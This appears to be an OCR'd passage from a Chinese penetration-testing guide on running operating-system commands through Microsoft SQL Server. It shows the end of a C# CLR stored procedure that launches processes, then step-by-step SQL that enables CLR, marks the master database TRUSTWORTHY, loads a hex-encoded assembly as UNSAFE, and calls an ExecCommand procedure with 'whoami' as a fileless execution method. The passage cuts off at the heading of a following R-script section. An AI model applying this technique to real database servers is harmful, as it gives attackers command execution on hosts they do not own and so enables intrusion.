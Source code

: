 ```csharp
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```
	启用MSSQL CLR
	sp_configure 'clr enabled', 1
	GO
	RECONFIGURE
	GO
	ALTER DATABASE master SET TRUSTWORTHY ON;
	获取字节流
	var byteStream =BitConverter.ToString(File.ReadAl1Bytes(@"c:\your.dll")).Replace("-",""); 
	File.WriteAllText(@"C:\bytestream.txt",byteStream);
	利用SQL语句导入程序集
	CREATE ASSEMBLY [Database1]
	    AUTHORIZATION [dbo]
	FROM 0x4d5a...[...]
	WITH PERMISSION_SET = UNSAFE;
	GO
	创建存储过程
	CREATE PROCEDURE [dbo].[ExecCommand]
	@cmd NVARCHAR (MAX)
	AS EXTERNAL NAME [Database1].[StoredProcedures].[ExecCommand]
	go
	无文件落地执行命令
	exec dbo.ExecCommand "whoami";
  #### R脚本
  	前提条件：
